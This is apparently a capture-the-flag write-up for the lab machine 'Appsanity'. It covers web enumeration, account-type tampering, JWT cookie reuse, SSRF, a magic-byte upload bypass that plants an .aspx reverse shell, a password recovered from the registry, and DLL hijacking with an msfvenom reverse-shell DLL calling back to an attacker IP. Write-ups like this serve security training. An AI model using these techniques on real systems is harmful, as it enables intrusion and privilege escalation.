# Appsanity

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.47.100
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-31 12:15 EDT
Nmap scan report for 10.129.47.100
Host is up (0.0076s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
443/tcp  open  https
5985/tcp open  wsman
7680/tcp open  pando-pub
```

Interestingly, WinRM is open, so `evil-winrm` might be used here. Did a detailed scan as well:

```
$ nmap -p 80,443,5985,7680 -sC -sV --min-rate 3000 10.129.47.100
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-31 12:17 EDT
Nmap scan report for 10.129.47.100
Host is up (0.0086s latency).

PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to https://meddigi.htb/
443/tcp  open  https?
5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp open  pando-pub?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

I added `meddigi.htb` to the `/etc/hosts` file and started Burpsuite for some web enumeration.

### Web Enum 

The website redirected me to the HTTPS version, and it shows a medical corporate website of some sorts.


There's a 'Sign In' option, and I created a new user and signed in to view the dashboard.



There's a password reset function, as well as a message sending function to the administrators of the site. The password reset had nothing interesting, but viewing the request did show me a JWT token.



When decoded, it gives these values:



Interesting. I played around with the other functions from this website but there was just nothing of interest. Next, I ran a directory scan with `gobuster` + `feroxbuster` and a subdomain scan with `wfuzz.` The latter picked up on a `portal` subdomain.

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.meddigi.htb' --hc=404 -u https://meddigi.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://meddigi.htb/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000048:   200        56 L     162 W      2976 Ch     "portal"
```

The `portal` subdomain just brought me to this separate login page:


### Doctor Account -> Cookie Reuse

When checking the requests proxied, I noticed that there was an `AccType` parameter in the POST request to Sign Up as a new user. 



I changed this value to `2`, and the dashboard now has a new function:



I created a new user and was able to assign them to this account:



When I logged in as the 'patient', I could see that I was assigned a doctor (`test test`)


There was nothing inherently interesting about this patient function, but by re-using the JWT cookie, I could login to the `portal` subdomain.



### Doctor Panel -> File Upload + SSRF

I took a look around the portal, and found some interesting functions. The most interesting was the file upload function:



This website was running on IIS, so uploading a `.aspx` shell might be the way in. When I tried to upload a `.jpg` file just to test, the website errored and said only PDFs are allowed.

Apart from this, there was also a Prescription Scheduler, which allowed me to enter links:



I entered my own IP, and found that it was vulnerable to SSRF:



When I entered `http://127.0.0.1` as the URL, it returned the webpage itself:


I played with other ports, and found that port 8080 returned something interesting:



The very end of this had a link to `/ViewReport.aspx?file=eefeccb8-4c86-45b4-a38d-81754324a11b_Cardiology_Report_1.pdf`, which tells me exactly what I need to do. I just have to upload a `.aspx` reverse shell, and find a way to bypass the filter, then use SSRF to 'read' the report which would trigger the shell.

I first just downloaded some `.aspx` shell from Github.



Then, I tried various methods of file upload bypasses:
* Null byte extension
* Content-Type set to `application/pdf`
* Double extensions

None of them worked, so I tried using Magic Bytes.



Using `hexeditor -b`, I added the file signature of PDF files via Ctrl + A:



This worked! Now, I used the SSRF to access this report. When using SSRF to check the reports available, I saw a second report:



This shell works on port 21:



## Privilege Escalation

### Examination Panel -> DnSpy -> DevDoc

The `svc_exampanel` user had one interesting file within their directory:

```
c:\Users\svc_exampanel\Logs>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is F854-971D

 Directory of c:\Users\svc_exampanel\Logs

10/18/2023  06:40 PM    <DIR>          .
10/18/2023  06:40 PM    <DIR>          ..
10/31/2023  10:55 AM            31,307 examinationpanel_log.txt
               1 File(s)         31,307 bytes
               2 Dir(s)   3,894,538,240 bytes free

c:\Users\svc_exampanel\Logs>type examinationpanel_log.txt
type examinationpanel_log.txt
Date: 10/18/2023 6:40:06 PM
Error: An unexpected error occurred when attempting to serve the decrypted report.
Details: System.UnauthorizedAccessException: Access to the path 'C:\inetpub\ExaminationPanel\ExaminationPanel\tmp\eefeccb8-4c86-45b4-a38d-81754324a11b_Cardiology_Report_1.pdf' is denied.
   at System.IO.__Error.WinIOError(Int32 errorCode, String maybeFullPath)
   at System.IO.FileStream.Init(String path, FileMode mode, FileAccess access, Int32 rights, Boolean useRights, FileShare share, Int32 bufferSize, FileOptions options, SECURITY_ATTRIBUTES secAttrs, String msgPath, Boolean bFromProxy, Boolean useLongPath, Boolean checkHost)
   at System.IO.FileStream..ctor(String path, FileMode mode, FileAccess access, FileShare share, Int32 bufferSize, FileOptions options, String msgPath, Boolean bFromProxy, Boolean useLongPath, Boolean checkHost)
<TRUNCATED>
```

Not too sure what this means, but I checked out the `c:\inetpub\ExaminationPanel` directory to find out more.

```
 Directory of C:\inetpub\ExaminationPanel\ExaminationPanel

09/25/2023  04:49 AM    <DIR>          .
09/25/2023  04:49 AM    <DIR>          ..
09/26/2023  07:30 AM    <DIR>          bin
09/24/2023  08:46 AM               409 Error.aspx
09/24/2023  08:46 AM               105 Global.asax
09/24/2023  08:46 AM             1,863 Index.aspx
10/31/2023  10:59 AM    <DIR>          Reports
10/31/2023  11:00 AM    <DIR>          tmp
09/24/2023  08:46 AM               363 ViewReport.aspx
10/18/2023  07:03 PM             2,883 Web.config
               5 File(s)          5,623 bytes
               5 Dir(s)   3,894,538,240 bytes free

C:\inetpub\ExaminationPanel\ExaminationPanel\bin>dir
 Volume in drive C has no label.
 Volume Serial Number is F854-971D

 Directory of C:\inetpub\ExaminationPanel\ExaminationPanel\bin

09/26/2023  07:30 AM    <DIR>          .
09/26/2023  07:30 AM    <DIR>          ..
09/24/2023  08:46 AM         4,991,352 EntityFramework.dll
09/24/2023  08:46 AM           591,752 EntityFramework.SqlServer.dll
09/24/2023  08:46 AM            13,824 ExaminationManagement.dll
09/24/2023  08:46 AM            40,168 Microsoft.CodeDom.Providers.DotNetCompilerPlatform.dll
09/24/2023  08:49 AM    <DIR>          roslyn
09/24/2023  08:46 AM           431,792 System.Data.SQLite.dll
09/24/2023  08:46 AM           206,512 System.Data.SQLite.EF6.dll
09/24/2023  08:46 AM           206,520 System.Data.SQLite.Linq.dll
09/24/2023  08:49 AM    <DIR>          x64
09/24/2023  08:49 AM    <DIR>          x86
```

There's one custom `.dll` file there, which we might need to reverse. Copied this file back to my machine via `smbserver.py`, then broke it open in `dnSpy`. 

This whole thing was massive, and it took quite a while to look through everything. The `LogError` function was the one that generated the file earlier:



Within some of the code, there's mention of an 'encryption' thing:



Reading this shows that it takes a key from the registry:



I used `reg query` to find this value:

```
C:\inetpub\ExaminationPanel\ExaminationPanel\bin\x86>reg query HKEY_LOCAL_MACHINE\Software\MedDigi
reg query HKEY_LOCAL_MACHINE\Software\MedDigi

HKEY_LOCAL_MACHINE\Software\MedDigi
    EncKey    REG_SZ    1g0tTh3R3m3dy!!
```

Checking the `C:\users` directory, I could find a few other users:

```
C:\inetpub\ExaminationPanel\ExaminationPanel\bin\x86>dir C:\users
dir C:\users
 Volume in drive C has no label.
 Volume Serial Number is F854-971D

 Directory of C:\users

10/31/2023  10:53 AM    <DIR>          .
10/31/2023  10:53 AM    <DIR>          ..
10/18/2023  06:08 PM    <DIR>          Administrator
09/24/2023  11:16 AM    <DIR>          devdoc
09/15/2023  06:59 AM    <DIR>          Public
10/18/2023  06:40 PM    <DIR>          svc_exampanel
10/17/2023  03:05 PM    <DIR>          svc_meddigi
10/18/2023  07:10 PM    <DIR>          svc_meddigiportal
               0 File(s)              0 bytes
               8 Dir(s)   3,894,304,768 bytes free
```

Using this password, I could `evil-winrm` in as the `devdocs` user:



### Binary Analysis -> DLL Hijacking

When checking the `C:\Program Files` directory, I found an `ReportManagement` directory:

```
*Evil-WinRM* PS C:\program files> dir


    Directory: C:\program files


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         9/15/2023   7:36 AM                Common Files
d-----         9/15/2023   8:16 AM                dotnet
d-----         9/15/2023   8:16 AM                IIS
d-----        10/23/2023  12:17 PM                Internet Explorer
d-----         9/17/2023   3:23 AM                Microsoft Update Health Tools
d-----         12/7/2019   1:14 AM                ModifiableWindowsApps
d-----        10/20/2023  12:42 PM                ReportManagement
d-----        10/23/2023   4:59 PM                RUXIM
d-----         9/15/2023   7:36 AM                VMware
d-----        10/23/2023  12:17 PM                Windows Defender
d-----        10/23/2023  12:17 PM                Windows Defender Advanced Threat Protection
d-----        10/23/2023  12:17 PM                Windows Mail
d-----         12/7/2019   1:54 AM                Windows Multimedia Platform
d-----         12/7/2019   1:50 AM                Windows NT
d-----        10/23/2023  12:17 PM                Windows Photo Viewer
d-----         12/7/2019   1:54 AM                Windows Portable Devices
d-----         12/7/2019   1:31 AM                Windows Security
d-----         12/7/2019   1:31 AM                WindowsPowerShell
```

Checking the permissions on this file shows that `devdoc` has RX privileges over it:

```
*Evil-WinRM* PS C:\program files> icacls ReportManagement
ReportManagement CREATOR OWNER:(OI)(CI)(IO)(F)
                 NT AUTHORITY\SYSTEM:(OI)(CI)(F)
                 BUILTIN\Administrators:(OI)(CI)(F)
                 BUILTIN\Users:(OI)(CI)(R)
                 APPSANITY\devdoc:(RX)
                 NT SERVICE\TrustedInstaller:(CI)(F)
                 APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(OI)(CI)(RX)
                 APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(OI)(CI)(RX)
```

Within this file, there's a `ReportManagement.exe` file:

```
*Evil-WinRM* PS C:\program files\ReportManagement> dir


    Directory: C:\program files\ReportManagement


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        10/23/2023  11:33 AM                Libraries
-a----          5/5/2023   5:21 AM          34152 cryptbase.dll
-a----          5/5/2023   5:21 AM          83744 cryptsp.dll
-a----         3/11/2021   9:22 AM         564112 msvcp140.dll
-a----         9/17/2023   3:54 AM         140512 profapi.dll
-a----        10/20/2023   2:56 PM         102912 ReportManagement.exe
-a----        10/20/2023   1:47 PM       11492864 ReportManagementHelper.exe
-a----         3/11/2021   9:22 AM          96144 vcruntime140.dll
-a----         3/11/2021   9:22 AM          36752 vcruntime140_1.dll
-a----          5/5/2023   5:21 AM         179248 wldp.dll
```

I downloaded this to my machine via `smbserver.py`, and took a look at the decompiled version using this site:



There were some interesting things from the RetDec output. Firstly, there was mention of the `Libraries` directory when I searched for `\\`:



When checking the ACLs for this directory, I saw that `devdoc` has Write access to it:

```
*Evil-WinRM* PS C:\program files\ReportManagement> icacls Libraries
Libraries APPSANITY\devdoc:(OI)(CI)(RX,W)
          BUILTIN\Administrators:(I)(F)
          CREATOR OWNER:(I)(OI)(CI)(IO)(F)
          NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
          BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
          BUILTIN\Users:(I)(OI)(CI)(R)
          NT SERVICE\TrustedInstaller:(I)(CI)(F)
          APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(RX)
          APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(OI)(CI)(RX)

Successfully processed 1 files; Failed processing 0 files
```

Perhaps the application was using functions from a DLL file within there. I ran this binary on my Windows VM and started x64dbg to see what was happening. Within the Logs, I saw that `mswsock.dll` was being loaded.



This DLL is used for network communication via sockets, meaning this application could be opening a port or reaching out to somewhere. When checking the ports of my Windows VM and the actual machine, I noticed that port of them had port 100 listening.

```
*Evil-WinRM* PS C:\Users\devdoc\Documents> netstat -a

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:80             Appsanity:0            LISTENING
  TCP    0.0.0.0:100            Appsanity:0            LISTENING
  <TRUNCATED>
```

`netstat -a -b` on my Windows VM confirms it:

```
netstat -a -b

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:100            <REDACTED>             LISTENING
 [ReportManagement.exe]
  <TRUNCATED>
```

Additionally, I found some extra information about the usage of this binary.



When it was run on my Windows VM, it generated the same `reportmanagement_log.txt` file I found earlier:



I tried connecting to it via `nc`, and it showed me the things I found earlier:

```
$ nc 127.0.0.1 100
Reports Management administrative console. Type "help" to view available commands.
help
Available Commands:
backup: Perform a backup operation.
validate: Validates if any report has been altered since the last backup.
recover <filename>: Restores a specified file from the backup to the Reports folder.
upload <external source>: Uploads the reports to the specified external source.
```

When trying to upload something, x64dbg tells me that the binary errors out due to some directories not being present:

```
C:\users\administrator\backup
C:\inetpub\ExaminationPanel\ExaminationPanel\Reports
C:\program files\reportmanagement\libraries
```

I created each of these directories. Attempts to the upload or recover functions fail:



When I checked the decompiled output, I noticed that this error appears after trying to use `CreateProcessW` with a `cmd.exe` instance.



There's also this part here which mentioned `externalupload`:



Question, is why is it using that string for `memcmp`? The only guess I had was that it was being checked to see if it was being loaded, which means that it `externalupload` is the name of a DLL file. Makes sense since our user `devdoc` conveniently had write access to the `Libraries` directory.

Additionally, I was unable to run the actual `.exe` myself on the machine due to 'Access denied', indicating that it was owned (and probably run) by the administrator.

To exploit it, first I generated a malicious DLL file via `msfvenom`, then uploaded that to the `Libraries` directory. I tried a lot of payloads, and for some reason this one works.

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.56 LPORT=21 -f dll -o externalupload.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 9216 bytes
Saved as: externalupload.dll
```

Afterwards, I used `chisel` to forward port 100 to my machine so I could access the service, and then used `nc` to execute all the commands available. One of them eventually executed the `.dll` file and gave me a shell:



Rooted!